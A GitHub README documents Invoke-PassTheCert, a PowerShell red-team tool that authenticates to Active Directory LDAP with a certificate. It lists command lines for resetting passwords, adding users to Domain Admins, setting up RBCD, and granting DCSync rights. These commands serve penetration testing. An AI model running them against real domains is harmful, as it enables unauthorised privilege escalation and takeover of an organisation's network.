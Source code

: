 # Invoke-PassTheCert

Invoke-PassTheCert is a pure PowerShell port of PassTheCert. The purpose of this repository is to expand the landscape of PowerShell tooling available to Penetration testers and red teamers. 

The original work by AlmondOffsec can be found here: https://github.com/AlmondOffSec/PassTheCert along with the accompanying blog post: https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html

Sometimes, Domain Controllers do not support PKINIT. This can be because their certificates do not have the Smart Card Logon EKU. However, several protocols, including LDAP, support Schannel, thus authentication through TLS.

---

## Note
If the certificate is password protected you will need to provide the ```-CertificatePassword``` parameter.
The ```-Certificate``` parameter accepts either a path to a PFX file or a Base64 encoded certificate ```MIINA...```

---

## Basic Usage

```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

## Command Reference

#### Whoami
Display the current identity authenticated via the certificate.
```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

### Reset Password
Reset a target user's password to a random value.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ResetPassword "CN=John Doe,CN=Users,DC=domain,DC=com"
```

---

## Add SPN
Adds an SPN (e.g., `cifs/fake.domain.com`) to a user object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Remove SPN
Removes SPN from target.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add to Group
Adds a user or computer to a specified group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddToGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Remove from Group
Removes a user or computer from a group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveFromGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Toggle Account Status
Enables or disables a user/computer account.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ToggleAccountStatus "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add Computer
Adds a new computer account to the domain. A random password will be generated if ```-ComputerPassword``` is omitted.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddComputer "NewPC01" -ComputerPassword "Summer2025!"
```

---

### Remove Computer
Removes a computer object from the domain.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveComputer "CN=NewPC01,CN=Computers,DC=domain,DC=com"
```

---

### Add RBCD (Resource-Based Constrained Delegation)
Grants RBCD rights to a specified user/computer by SID.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com" -SID "S-1-5-21-..."
```

---

### Remove RBCD
Removes RBCD rights from a target object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com"
```

---

### Elevate
Grants a user rights to perform DCSync by modifying the domain security descriptor.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -Elevate "CN=svc_user,CN=Users,DC=domain,DC=com"
```

## Future Addtions
- Support for Start TLS
- Shadow Credential Attacks
- LDAP interactive Shell

---
